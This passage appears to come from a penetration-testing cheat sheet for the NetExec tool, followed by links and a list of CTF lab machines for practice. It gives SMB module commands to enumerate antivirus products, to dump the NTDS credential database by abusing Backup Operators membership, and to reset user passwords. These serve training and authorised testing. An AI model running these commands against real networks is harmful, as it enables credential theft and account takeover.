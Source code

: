 ### **enum_av**
Gathers information on all endpoint protection solutions installed on the the remote host
```
netexec smb target -u username -p password -M enum_av
```
### **backup_operator**
Exploit user in backup operator group to dump NTDS
```
netexec smb target -u username -p password -M backup_operator
```
### **change-password**
Change or reset user password
```
netexec smb target -u username -p password -M change-password -o USER='target_user' NEWPASS='new_password'
```
## Resources
- https://www.netexec.wiki/
- https://www.rayanle.cat/lehack-2024-netexec-workshop-writeup/
## Practice
- Mist (HackTheBox)
- Rebound (HackTheBox)
- Vintage (HackTheBox)
- Cicada (HackTheBox)
- Baby (Vulnlab)
- Intercept (Vulnlab)
- Reflection (Vulnlab)
- NetExec Lab (https://github.com/Pennyw0rth/NetExec-Lab)